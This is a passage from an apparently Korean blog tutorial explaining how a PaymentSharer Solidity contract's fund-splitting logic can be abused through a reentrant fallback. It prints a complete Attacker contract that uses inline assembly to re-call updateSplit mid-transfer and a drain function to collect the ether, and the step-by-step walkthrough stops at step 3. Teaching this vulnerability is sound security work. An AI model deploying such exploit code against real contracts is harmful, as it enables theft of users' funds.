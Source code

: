 이 컨트랙트는 `init()` 함수에서 _first와 _second 계정을 파라미터로 전달받아서 특정 아이디를 키로 하여 mapping 타입의 상태 변수 first와 second와 각각 저장합니다.
`deposit()` 함수를 통해서 컨트랙트에 이더를 적립합니다. 적립된 이더는 deposits라는 mapping 타입의 장부에 저장됩니다.

`updateSplit()`는 이렇게 적립된 이더를 _first와 _second 계정에게 배분하는 비율을 정하는 함수입니다. _first 계정이 가져갈 비율을 %단위로 지정하면 나머지는 
_second 계정이 받게 될 것입니다. `splitFunds()`는 그렇게 계산된 이더를 송금하는 함수입니다. 

다음에는 공격자 컨트랙트입니다.

{% highlight javascript %}

pragma solidity ^0.5.0;

import "./PaymentSharer.sol";

contract Attacker {
      address private victim;
      address payable owner;
    
      constructor() public {
          owner = msg.sender;
      }
    
      function attack(address a) external {
          victim = a;
          PaymentSharer x = PaymentSharer(a);
          x.updateSplit(0, 100);
          x.splitFunds(0);
      }
    
      function () payable external {
          address x = victim;
          assembly{
              mstore(0x80, 0xc3b18fb600000000000000000000000000000000000000000000000000000000)
              pop(call(10000, x, 0, 0x80, 0x44, 0, 0))
          }    
      }
    
      function drain() external {
          owner.transfer(address(this).balance);
      }
}
{% endhighlight %}

여느 공격자 컨트랙트가 그렇듯이, 공격대상이 되는 PaymentSharer.sol 컨트랙트를 참조합니다. 공격자는 각각 _first, _second 컨트랙트 계정을 
만들어서 정상적으로 임의의 이더를 이 컨트랙트에 적립합니다.

이제 `attack()`함수를 실행합니다. 이 함수는 연속적으로, 하나의 트랜잭션으로 실행됩니다. Attacker 컨트랙트가 _first 계정이 될 것입니다.

1. 공격자는 `updateSplit()`을 실행하여 0번 아이디 배분 장부에 _first계정이 100%의 이더를 가져가도록 합니다.

2. 공격자는 `splitFunds()`를 호출하여 송금을 진행합니다.

3. 송금되는 이더는 공격자의 컨트랙트 Attacker, 즉 _first 계정이 받게 되는데 이 때 fallback payable 함수가 호출됩니다. 여기서 다시 `updateSplit()`으로 
이번에는 _first 계정에 0% 배분을 지정하여 _second 계정이 이더를 모두 받도록 합니다(여기서는 솔리디티 어셈블리를 사용하여 함수 시그너처 0xc3b18fb6 = bytes4(keccak256("updateSplit(uint256,uint256)")) 호출하였습니다). 
 